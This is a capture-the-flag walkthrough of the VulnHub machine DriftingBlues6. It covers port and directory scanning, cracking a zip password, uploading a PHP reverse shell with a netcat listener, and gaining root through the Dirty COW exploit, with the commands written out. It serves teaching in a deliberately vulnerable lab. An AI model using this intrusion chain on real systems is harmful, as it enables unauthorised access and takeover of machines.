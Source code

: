 ## DRIFTINGBLUE6 VULNHUB MACHINE

 Hello!  i am mohamed! This is my WriteUp for DriftingBlue6 VulnHub Machine Let's start with Setup Machine you can find Machine from [DriftingBlue6](https://www.vulnhub.com/entry/driftingblues-6,672) ok! download it and setup it on vmware i already finished the setup you should see this : 
 
#### Hint: change extension of file from ".ovf" to ".ova"
 
 ![setup](https://user-images.githubusercontent.com/47929033/130618015-aabced47-56df-4f42-b065-adddd93df422.png)

so! Let's Start with Enumeration i will use netdiscover to find ip address of machine i will use command: `sudo netdiscover`  on Kali Linux i found ip 192.168.1.6 with vmware,inc hostname : 

![net](https://user-images.githubusercontent.com/47929033/130619421-935dc7bf-a883-4c47-bc3d-35392589daa9.png)

Ok That's Great now we can use nmap to scan for open ports and service on machine i used command:
`nmap -Pn -sV -A -sC 192.168.1.6` i found only 1 port open on HTTP web service on port 80 : 

![nmap](https://user-images.githubusercontent.com/47929033/130621054-67f6eaf7-595d-4951-9826-52eed45c40cb.png)

ok let's see web page with browser : 

![web](https://user-images.githubusercontent.com/47929033/130621692-b3e4cf98-e04a-4f64-9bd6-92d996bd7a8d.png)

as you can see >> CHARLES BROWN .. :)

we need now to discover some directories that hidden in website let's do it with gobuster i used command: 
`gobuster dir --url http://192.168.1.6/ -w /home/kali/Desktop/directory-list-2.3-medium.txt -x php,html,css`
i found some interesting directory like (robots.txt and spammer) Just like the photo below: 

![dir](https://user-images.githubusercontent.com/47929033/130623604-a1f861cf-e22c-4ab9-a624-303616c0cd58.png)

let's see robots.txt directory in web browser: 

![ro](https://user-images.githubusercontent.com/47929033/130623878-0db64a64-ea5f-4b07-844e-4f1317894a08.png)

oh!! i found directory "Disallowed" "/textpattern/textpattern" let's see it : 

![log](https://user-images.githubusercontent.com/47929033/130624859-fe2a1a68-b814-4bba-8ec2-f3d8815131de.png)

it's login page!!, that's great we can try another directory like spammer the we found on gobuster : 

![spammer](https://user-images.githubusercontent.com/47929033/130625581-0f93acc5-9eab-475a-b6f0-0aa583c11216.png)

it's ZIP file!! let's try to extract it on terminal nut the ZIP file was encrypted with password :

![ex](https://user-images.githubusercontent.com/47929033/130626167-915633dc-50f5-42de-8697-d6d0e2c59884.png)

we can use fcrack tool to crack password of ZIP file ... you can download fcrack with command : 
`sudo apt install fcrackzip` you can ask Google about fcrack tool, ok i will use command: 
`fcrackzip -u -D -p /home/kali/Desktop/work/rockyou.txt spammer.zip`
-D option for dictionary attack, -U option for unzip-file, -p for init password string, you can use 
`fcrackzip -h` for help options, ok let's do it i will use rockyou.txt to crack it: 

![crack](https://user-images.githubusercontent.com/47929033/130628068-5daaa8af-8445-44df-8088-3d9ffd074762.png)

as you can see password is: myspace4  let's extract file: 

![ext](https://user-images.githubusercontent.com/47929033/130628809-a1d5b6e2-35ad-4e37-85b9-549ea93f4249.png)

as you can see the file extracted is cred.txt ... this is the credentials for login page let's login with credentials: 

![log2](https://user-images.githubusercontent.com/47929033/130629662-599b0da2-2b55-4365-9067-0205dba2eeca.png)

as you can see we are in ok let's try to find way to get command execution on web server let check "content>files"  i found upload page that's great : 

![con](https://user-images.githubusercontent.com/47929033/130630153-2d2043c6-32db-4e4d-a4cf-ffb9d4218c4f.png)

we can now ask google about php-reverse-shell.php you can get from [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) 
download it with `wget <link>` on your attacking machine and change $ip to your ip that you will listen it :

![subl](https://user-images.githubusercontent.com/47929033/130632986-daddb932-6b5e-4e1f-8ae4-d2daddfbf158.png)

let's upload it to get shell but don't forget to run listner on your machine i will use netcat 
to get shell with command `nc -nlvp 1234` as you can see fle uploaded: 

![file](https://user-images.githubusercontent.com/47929033/130633923-95c7db91-0691-4630-b233-18056478ea7f.png)

let's go to path file on web browser --> `http://IP/textpattern/files/` and run it : 

![file2](https://user-images.githubusercontent.com/47929033/130635366-2c291b34-a64c-4cd5-866b-7f05f708c837.png)

as you can see we are in, let's upgrade shell with python using command: 
 
`python -c 'import pty; pty.spawn("/bin/bash")'`: 

![shell](https://user-images.githubusercontent.com/47929033/130637742-3c6ab5ee-b507-4d0c-9fba-fe2fff4b068f.png)

Now we need to get high Privilege on system "Privilege Escalation" let's see what is the version of linux system by using command : `uname -a` i found `3.2.0-4-amd64` by asking Google about any exploit i found Privilege Escalation exploit in exploit-db - exploit from [Privilege Escalation](https://www.exploit-db.com/exploits/40839) download it with `wget <link of exploit>` on your machine and tranfer it from your machine to target machine with python with command:`python -m SimpleHTTPServer 8080` .. you can try another way to upload exploit on web server from web browser, i already download it in target machine let's see how to exploit:

![priv](https://user-images.githubusercontent.com/47929033/130640894-ef9fee1b-a58e-42f9-be15-70fb6c3c380b.png)

as you can see we can compile it with gcc let's do it in target machine with command : 
`gcc -pthread 40839.c -o dirty -lcrypt` and and run with `./dirty` then type a new password
and wait a few second..  to creating a user with root privilege and finally: 

![priv1](https://user-images.githubusercontent.com/47929033/130642583-95d61d0b-3b73-48bb-8850-70d9fb216046.png)

as you can see we can now log in with 'firefart' user and password '1234' let's do it and see: 

![priv2](https://user-images.githubusercontent.com/47929033/130643100-7da8fa30-9281-453e-91d4-64a3e67f6aff.png)

now we have root privilege on system ... let's locate flag.txt: 

![flag](https://user-images.githubusercontent.com/47929033/130643644-58708783-c090-403a-b019-a93c3abc4980.png)

hope you guys to enjoy with this machine...;)























